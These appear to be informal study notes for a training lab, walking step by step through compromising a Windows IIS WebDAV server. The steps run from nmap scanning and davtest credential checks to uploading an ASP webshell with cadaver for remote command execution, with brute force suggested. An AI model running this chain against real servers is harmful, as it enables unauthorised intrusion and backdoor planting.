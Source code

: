 

>[!todo]- Steps of exploiting (win IIs webdav) :
>- 1-
>	- if you work from a different machine, you should know your ip first and the mac address..
>	- `ifconfig | ipconfig`
>---
>- 2-
>	- test connectivity of your picked target after the Recon operation
>	- we will assume that you have successfully found an ip address with suspect of having a vulnerability inside...
>	- `ping T_IP`
>		- to test if the target is up ..
>---
>- 3-
>	- `nmap t_ip`
>		- for testing the famous 1000 ports
>		- if no output, try the all 65535 then the udp one if necessary
>---
>- 4-
>	- now we have discovered multiple open ports
>	- we will focus on port 80, it has the targeted service
>	- `nmap --script http-enum -sV -p 80 T_IP`
>		- for making enumeration on a specific port on the target
>	- ![[Pasted image 20240712201243.png]]
>		- that is the type of answer you want to see to know if there are  that service or not...
>---
>- 5-
>	- using a specific tool named `davtest`
>	- `davtest -url http://t_ip/webdav`
>		- it will try to access the machine using webdav service
>		- it will give you failed because you don't have the authorized account, you will try a brute force here or just use the account they gave you :)
>---
>- 6-
>	- `davtest -auth name:pass --url http://t_ip/webdav`
>	- succeed to enter and you may enter some type of files as shown ...
>		- ![[Pasted image 20240712202211.png]]
>	- now you now that the target accept the connection with the account you type(given) and it accept specific files
>---
>- 7-
>	- now you try to send a webshell or a backdoor as u want...
>	- now we will use web shell by `cadaver`
>	- `cadaver http://t_ip/webdav`
>		- now it will ask for username and password ....
>		- now you have access the webdav folder that run a specific service
>---
>- 8-
>	- `put /usr/share/webshells/asp/webshell.asp`
>		- now you are trying to upload a webshell file to the target machine
>---
>- 9-
>	- now open the browser and open the web shell from it ...
>	- `http://t_ip/webdav/webshell.asp`
>		- it will ask for the authentication,
>		- now you have a remote command execution...
>----
>- 10-
>	- if you want to read a specific file
>	- use the windows commands to navigate inside and searching for the file...
>	- `type` command = `cat` in linux .....

- perfectoo .....